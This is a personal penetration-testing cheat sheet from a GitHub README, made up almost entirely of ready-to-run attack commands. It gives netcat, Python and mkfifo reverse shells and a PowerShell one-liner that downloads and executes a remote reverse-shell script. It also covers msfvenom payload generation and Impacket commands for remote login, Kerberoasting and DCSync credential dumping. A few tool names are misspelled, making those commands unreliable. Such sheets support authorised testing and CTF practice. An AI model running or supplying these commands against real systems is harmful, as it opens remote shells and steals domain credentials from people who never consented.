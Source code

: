 # Pen-Test Cheat Sheet
This repository contains this markdown file which includes common commands and tools used in a penetration test  
This will be a list of commands that has personally worked for me so I do not have to go back and find what and what doesn't work  
Commands will be seperated into categories  

## Reverse Shells

### Netcat Traditional
```
nc -e /bin/sh 10.10.10.10 4444
nc -e /bin/bash 10.10.10.10 4444
nc -c bash 10.10.10.10 4444
```
### Netcat OpenBSD
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f
```
### Python
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
### Windows
```
powershell IEX (New-Object Net.WebClient).DownloadString('https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1')
```
Use this command in conjunction with nishang shell  
https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

### PHP Upload
https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php  

### msfvenom commands

#### Windows
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe > reverse.exe
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f exe > reverse.exe
```
#### Linux
```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f elf >reverse.elf
```
## Spawn TTY Shell
`rlwrap` enhances the shell, allowing you to clear the screen with `CTRL + L`
```
rlwrap nc 10.10.10.10 4444
```
## nmap
```
nmap -sC -sV -oA nmap/name_of_file 10.10.10.10
```
## Gobuster
```
gobuster dir -u http://10.10.10.10 -w /usr/share/wordlists/dirbuster/directory-list.2.3-medium.txt -t 50
```
## Impacket

https://github.com/SecureAuthCorp/impacket

### psexec
Used to remotely login to victim's computer
```
psexec.py domain/user:password@10.10.10.10
```
### GetUserSPNs
Script to find and fetch Service Principle Names assosicated with normal user accounts   
Hash retrieved can be cracked using John or Hashcat  
```
GetUserSPNs.py domain/user:password -dc-ip 10.10.10.10 -request
```
### secretdumps

Performs a DCSync Attack  
DCSync Attacks pretends to be a domain controller  
Targetted account must have DCSync Privileges which can be obtain if user has Exchange Windows Permission  

```
secretdumps.py domain/user:password@10.10.10.10
```

### smbclient

A generic SMB client
```
smbclient.py domain/user:password@10.10.10.10
```

### lookupsid

Tool to bruteforce Windows SIDs which will attempt to identify remote users and groups 

```
lookipsid.py domain/user:password@10.10.10.10
```
## Port Forwarding

### ssh 

```
    ssh -L port_to_host:ip_address:port_to_forward user@host.com
```

